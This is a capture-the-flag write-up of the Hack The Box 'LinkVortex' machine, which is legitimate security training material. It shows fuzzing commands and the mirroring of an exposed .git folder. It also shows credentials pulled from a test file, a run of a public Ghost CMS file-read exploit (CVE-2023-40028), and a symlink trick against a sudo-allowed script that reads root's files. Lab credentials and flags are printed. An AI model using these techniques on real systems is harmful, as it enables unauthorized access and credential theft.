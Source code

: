 
HTB : [[Machines]]

**Date:** 09/01/25  
**Target IP:** 10.10.11.47

---
### **Initial Scanning**

##### **Nmap**:

- **22/tcp** open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
- **80/tcp** open  http    Apache httpd
	|\_http-title: Did not follow redirect to http://linkvortex.htb

Added linkvortex.htb to /etc/hosts file

---
### **Exploration and Enumeration**

**Port 80 (HTTP):**
- Navigated to website hosted at port 80.
- Blog page type thing.
- Blog author is admin.
- Sign Up button doesn't work.
- Powered by Ghost???

**Ghost** is an open source ("Open-source software") content management system platform written in JavaScript and distributed under the [MIT License](https://en.wikipedia.org/wiki/MIT_License "MIT License"), designed to simplify the process of online publishing for individual bloggers as well as online publications.

Found the default Ghost Admin Login Page at http://linkvortex.htb/ghost/#/signin.

Found multiple exploits or Ghost on GitHub and other CVE databases but they seem to require credentials which I do not possess which means another approach should be attempted.

##### **Subdomain and Directory Enumeration**

With great difficulty (the connection to this server is infuriating), a subdomain at **dev.linkvortex.htb** was discovered.

```bash
❯ ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt:FUZZ -u http://FUZZ.linkvortex.htb/ -c -v -fc 301
```

Dirsearch was then used to reveal that dev.linkvortex.htb had some interesting directories.

```bash
❯ dirsearch -u http://dev.linkvortex.htb -t 50

[16:03:48] 301 -  239B  - /.git  ->  http://dev.linkvortex.htb/.git/
```

Found the following at http://dev.linkvortex.htb/.git/logs/HEAD

```
0000000000000000000000000000000000000000 299cdb4387763f850887275a716153e84793077d root <dev@linkvortex.htb> 1730322603 +0000	clone: from https://github.com/TryGhost/Ghost.git
```

---
### **Exploitation**

In order to properly analyse the git repo, it is necessary to fetch the whole thing. This is accomplished with:

```
❯ wget -m -I .git http://dev.linkvortex.htb/.git
```

We can then `cd` into the downloaded folder and run:

```bash
❯ git status
```

Obtaining the following:

```
Not currently on any branch.
Changes to be committed:
  (use "git restore --staged <file>..." to unstage)
	new file:   Dockerfile.ghost
	modified:   ghost/core/test/regression/api/admin/authentication.test.js

Changes not staged for commit:
  (use "git add/rm <file>..." to update what will be committed)
  (use "git restore <file>..." to discard changes in working directory)
	deleted:    .editorconfig
	deleted:    .gitattributes
	deleted:    .github/AUTO_ASSIGN
	deleted:    .github/CONTRIBUTING.md
```

We can the obtain credentials in the listed modified file using:

```bash
❯ git show :ghost/core/test/regression/api/admin/authentication.test.js
```

`const password = 'OctopiFociPilfer45';` is one of the credentials obtained and utilizing a user enumeration vulnerability on the the Ghost login page we are able to deduce that `admin@linkvortex.htb` is an existing user email. Combining these we can gain access to the ghost admin page.

Now having obtained a valid username and password, I'm able to use the Ghost CMS exploits i previously found on GitHub. One specifically stands out: https://github.com/0xDTC/Ghost-5.58-Arbitrary-File-Read-CVE-2023-40028 as it allows one to arbitrarily read any file on the system. It can hence be used to read the other file that was listed before when I ran `git status`.

On reading the file using the exploit:

```
❯ bash exploit.sh -u admin@linkvortex.htb -p OctopiFociPilfer45 -h linkvortex.htb
```

We obtain the following credentials:

```
"user": "bob@linkvortex.htb",
"pass": "fibber-talented-worth"
```

I can now SSH into this user and obtain the **user flag** :

**c623ddf811a8211e6d0c7be7832a66a5**

---
### **Post-Exploitation**

Running linpeas did not indicate anything extremely interesting. However `sudo -l` did.

```
bob@linkvortex:~$ sudo -l
Matching Defaults entries for bob on linkvortex:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty, env_keep+=CHECK_CONTENT

User bob may run the following commands on linkvortex:
    (ALL) NOPASSWD: /usr/bin/bash /opt/ghost/clean_symlink.sh *.png
```

Reading the `clean_symlink.sh` file provided the following :

```bash
#!/bin/bash

QUAR_DIR="/var/quarantined"

if [ -z $CHECK_CONTENT ];then
  CHECK_CONTENT=false
fi

LINK=$1

if ! [[ "$LINK" =~ \.png$ ]]; then
  /usr/bin/echo "! First argument must be a png file !"
  exit 2
fi

if /usr/bin/sudo /usr/bin/test -L $LINK;then
  LINK_NAME=$(/usr/bin/basename $LINK)
  LINK_TARGET=$(/usr/bin/readlink $LINK)
  if /usr/bin/echo "$LINK_TARGET" | /usr/bin/grep -Eq '(etc|root)';then
    /usr/bin/echo "! Trying to read critical files, removing link [ $LINK ] !"
    /usr/bin/unlink $LINK
  else
    /usr/bin/echo "Link found [ $LINK ] , moving it to quarantine"
    /usr/bin/mv $LINK $QUAR_DIR/
    if $CHECK_CONTENT;then
      /usr/bin/echo "Content:"
      /usr/bin/cat $QUAR_DIR/$LINK_NAME 2>/dev/null
    fi
  fi
fi
```

Effectively, this script checks if a .png file is a symbolic link and if it is trying to link to a critical, sensitive file. If it finds it trying to read a critical file it removes the link and if not it checks its content (optionally printing said content) and moves it to a quarantine folder.

---
### **Escalation**

This script can be exploited to display the contents of `/root/root.txt` by first creating a `test.txt` file with a symbolic link to it and then creating a further `test.png` file with a symbolic link to the `test.txt` file and then running the script with `CHECK_CONTENT=true` to display the contents.

```bash
bob@linkvortex:~$ ln -s /root/root.txt test.txt

bob@linkvortex:~$ ls
test.txt  user.txt

bob@linkvortex:~$ ln -s /home/bob/test.txt test.png

bob@linkvortex:~$ ls
test.png  test.txt  user.txt

bob@linkvortex:~$ sudo CHECK_CONTENT=true /usr/bin/bash /opt/ghost/clean_symlink.sh test.png

Link found [ test.png ] , moving it to quarantine
Content:
bf048412c4ade4b196805ed2d70de3f5
```

We thus obtain the **root flag** :

**bf048412c4ade4b196805ed2d70de3f5**

---
### **Summary**

- Ghost CMS ( **Outdated Version** ) website on Port 80
- Discovered Subdomain: **dev.linkvortex.htb** with **.git folder accessible**
- Ghost CMS Admin Credentials: `admin@linkvortex.htb : OctopiFociPilfer45`
- [GitHub Exploit](https://github.com/0xDTC/Ghost-5.58-Arbitrary-File-Read-CVE-2023-40028) for **arbitrary file read**
- Bob User Credentials: `bob@linkvortex.htb : fibber-talented-worth`
- User Flag (`home/bob/user.txt`) : **c623ddf811a8211e6d0c7be7832a66a5**
- **Insecure script** allowing Bob to arbitrarily read sensitive files
- Root Flag (`/root/root.txt`) : **bf048412c4ade4b196805ed2d70de3f5**





